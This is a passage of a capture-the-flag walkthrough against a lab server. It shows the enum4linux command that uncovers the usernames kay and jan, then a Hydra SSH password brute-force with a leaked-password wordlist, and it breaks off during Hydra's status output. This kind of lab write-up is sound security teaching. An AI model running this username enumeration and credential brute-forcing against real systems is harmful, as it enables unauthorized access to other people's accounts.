 2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

These were some interesting messages.

The first message complements what we know from the nmap scan, and the second message tells us that J’s password is easy to crack.

We know from nmap that this server is running Ubuntu. Let’s use enum4linux to find out more about their web server, and maybe find some usernames.

#### Command:
>_enum4linux -a [target] > enum.txt_

The most interesting part of the output is the enumerated usernames section. We see the following results.

```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1000 Unix User\jan (Local User)
```

And we now have two usernames, and we’ve learnt the names of the elusive K and J.

### Initial Access {#initial-access}

We will use Hydra to try to crack Jan’s password for SSH, since we know it is weak. We use the username jan and the darkweb2017 top 10000 wordlist from SecLists.

#### Command:
>_hydra -l jan -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt [target] ssh_

```
_└─$ hydra -l jan -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.126.228 ssh	255 ⨯_

_Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway)._

_Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-29 15:14:05_

_[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4_
_[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task_
_[DATA] attacking ssh://10.10.126.228:22/_
_[STATUS] 183.00 tries/min, 183 tries in 00:01h, 9823 to do in 00:54h, 16 active_
_[STATUS] 140.67 tries/min, 422 tries in 00:03h, 9584 to do in 01:09h, 16 active_
_[STATUS] 117.57 tries/min, 823 tries in 00:07h, 9183 to do in 01:19h, 16 active_
_[STATUS] 117.60 tries/min, 1764 tries in 00:15h, 8242 to do in 01:11h, 16 active_
